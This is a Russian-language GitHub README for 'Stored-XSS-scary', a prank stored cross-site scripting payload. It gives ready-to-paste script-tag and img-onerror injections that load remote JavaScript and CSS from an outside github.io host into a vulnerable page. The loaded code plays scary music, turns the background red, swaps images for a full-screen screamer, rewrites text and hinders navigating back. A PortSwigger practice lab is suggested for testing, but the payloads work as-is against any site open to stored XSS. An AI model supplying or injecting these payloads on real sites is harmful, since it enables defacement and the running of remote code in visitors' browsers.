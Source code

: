 # Stored-XSS-scary

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

https://github.com/0-DAyFF13R/Stored-XSS-scary/assets/63510648/bb422629-d35f-476e-841e-461b51f6bd0e

------------------------------------------

Полная версия (JS + CSS) [288 символов]:
Через script
> <script>var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/Stored-XSS-scary/script.js';document.body.appendChild(r);</script>
Через img
> <img src="" alt="" onerror="var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/Stored-XSS-scary/script.js';document.body.appendChild(r)">

* Страшная музыка.
* Постепенно изменяющийся цвет фона на красный.
* Прыгающий и мигающий текст.
* Частичные трудности при возвращении на предыдущую страницу.
* Замена всех изображений на скример.
* Замена текста из тегов "p", "h1", "a".
* Замена всех тегов "a" на "p".
* Скример на весь экран с криком в течение какого-то времени.
